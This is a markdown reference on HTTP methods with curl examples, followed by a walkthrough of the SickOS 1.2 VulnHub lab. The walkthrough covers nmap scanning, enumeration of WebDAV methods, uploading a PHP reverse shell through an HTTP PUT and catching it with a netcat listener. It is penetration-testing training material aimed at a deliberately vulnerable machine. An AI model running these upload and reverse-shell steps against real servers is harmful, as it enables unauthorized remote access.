

# HTTP Methods

*Source: [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods)*

---

## HTTP Methods Overview

| Method      | Description                                                                          | Typical Use Case                                                                         | Common Headers                                          |
| ----------- | ------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| **GET**     | Requests a representation of the specified resource. Should only retrieve data.      | Fetching a webpage, downloading an image, or accessing an API resource.                  | `Accept`, `User-Agent`, `Cookie`, etc.                  |
| **HEAD**    | Same as GET, but without the response body. Useful for checking metadata.            | Checking if a resource has changed (`Last-Modified`, `ETag`), or getting content length. | `Accept`, `User-Agent`, `If-Modified-Since`, etc.       |
| **POST**    | Submits data to the server, creating or modifying resources.                         | Submitting forms, uploading files, sending data to APIs.                                 | `Content-Type`, `Content-Length`, `Cookie`, etc.        |
| **PUT**     | Replaces the current representation of the target resource with the request payload. | Uploading a complete resource (e.g., new file upload).                                   | `Content-Type`, `Content-Length`, `Authorization`, etc. |
| **DELETE**  | Deletes the specified resource.                                                      | Removing a file, deleting a record in an API.                                            | `Authorization` (if needed).                            |
| **PATCH**   | Applies partial modifications to a resource.                                         | Updating specific fields in a database record via an API.                                | `Content-Type`, `Authorization`, etc.                   |
| **CONNECT** | Establishes a tunnel (e.g., for HTTPS through a proxy).                              | Establishing an encrypted tunnel (like HTTPS via a proxy).                               | `Host`                                                  |
| **OPTIONS** | Returns the communication options for the target resource (like supported methods).  | Checking which methods are allowed on a resource before sending a request.               | `Allow`, `Access-Control-Allow-Methods`, etc.           |
| **TRACE**   | Performs a message loop-back test to see what data is received.                      | Debugging requests and checking what intermediaries (like proxies) see.                  | None (since it reflects back what was sent).            |

---

## GET

The **GET** method requests a representation of the specified resource.
Requests using **GET** should only retrieve data and **must not have side effects**.

### Example

```bash
curl -X GET http://example.com/resource
```

---

## HEAD

The **HEAD** method asks for a response identical to that of a **GET** request, but **without the response body**.

### Example

```bash
curl -I http://example.com/resource
```

---

## POST

The **POST** method is used to submit an entity to the specified resource, often causing a change in state or side effects on the server.

### Example

```bash
curl -X POST -d "param1=value1&param2=value2" http://example.com/resource
```

---

## PUT

The **PUT** method replaces all current representations of the target resource with the request payload.

### Example

```bash
curl -X PUT -d "new data" http://example.com/resource
```

---

## DELETE

The **DELETE** method deletes the specified resource.

### Example

```bash
curl -X DELETE http://example.com/resource
```

---

## PATCH

The **PATCH** method is used to apply partial modifications to a resource.

### Example

```bash
curl -X PATCH -d "param=new_value" http://example.com/resource
```

---

## CONNECT

The **CONNECT** method establishes a tunnel to the server identified by the target resource.
It is typically used for **HTTPS through a proxy**.

### Example

> This method is usually not directly invoked with `curl` for standard requests.

---

## OPTIONS

The **OPTIONS** method is used to describe the communication options for the target resource.

### Example

```bash
curl -X OPTIONS http://example.com/resource -i
```

---

## TRACE

The **TRACE** method performs a message loop-back test along the path to the target resource, showing what intermediaries see.

### Example

```bash
curl -X TRACE http://example.com/resource
```

---

## SickOS: 1.2

**VulnHub Link:**
[https://www.vulnhub.com/entry/sickos-12,144/](https://www.vulnhub.com/entry/sickos-12,144/)

---

We are configure a machine but don't know machine IP-Address

so we can find the machine IP Address

run as **root**

```bash
nmap -sn 192.168.1.1/24
```

```
Nmap scan report for 192.168.1.12 (192.168.1.12)
Host is up (0.00064s latency).
MAC Address: 08:00:27:1B:9D:0B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

```bash
nmap -v -p- 192.168.1.12
```

```bash
nmap -v -sT -sV -sC -A -O 80,22 192.168.1.12
```
Output: we are finding 2 ports
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:1B:9D:0B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

```bash
dirsearch -u http://192.168.1.12/
```

---

## Checking HTTP Methods

### Using `nmap` to Enumerate Supported Methods

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-methods.nse 192.168.1.12
```

---

### With URL Path Specification

```bash
nmap -v -Pn -sT -sV -p 80 --script=http-methods.nse --script-args http-methods.url-path='/test' 192.168.1.12
```
- See Supported methods:
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd 1.4.28
| http-methods: 
|   Supported Methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK GET HEAD POST OPTIONS
|   Potentially risky methods: PROPFIND DELETE MKCOL PUT MOVE COPY PROPPATCH LOCK UNLOCK
|_  Path tested: /test
|_http-server-header: lighttpd/1.4.28
```
---

### Using `curl` to Check `OPTIONS`

```bash
curl -v -X OPTIONS http://192.168.1.12/test
```

---

## Example Usage of HTTP Methods with `curl`

### GET

```bash
curl -X GET http://192.168.1.12/test/demo.txt
```

---

### HEAD

```bash
curl -I http://192.168.1.12/test/demo.txt
```

---

### POST

```bash
curl --request POST --url http://192.168.1.12/test/post.php --header 'Content-Type: application/x-www-form-urlencoded' --data 'demo2'
```

---

## PUT – Upload a File

```bash
curl -T php-reverse-shell.php http://192.168.1.12/test/
```

### Or with explicit method

```bash
curl -X PUT -T "php-reverse-shell.php" http://192.168.1.12/test/
```
### listner start
```bash
nc -lvnp 443
```


**PHP reverse shell reference:**

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```bash
vim php-reverse-shell.php
```
- Set your IP-Address and Port

### Or uploading as data

```bash
curl -X PUT -d "<?php phpinfo(); ?>" http://192.168.1.150/test/phpinfo.php
```


---

## DELETE – Remove a Resource

```bash
curl -X DELETE http://192.168.1.12/test/php-reverse-shell.php
```

---

